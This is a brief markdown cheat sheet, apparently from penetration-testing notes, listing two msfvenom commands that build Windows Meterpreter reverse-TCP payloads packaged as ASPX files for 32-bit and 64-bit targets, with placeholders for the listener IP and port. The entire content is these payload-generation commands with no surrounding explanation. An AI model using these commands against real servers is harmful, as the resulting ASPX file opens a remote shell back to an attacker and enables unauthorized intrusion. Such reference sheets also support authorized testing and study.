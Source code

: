 # ASPX

- x86 (32-bit) Payloads

`$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o met-x86.aspx`

- x86-64 (64-bit) Payloads

`$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o met-x64.aspx`
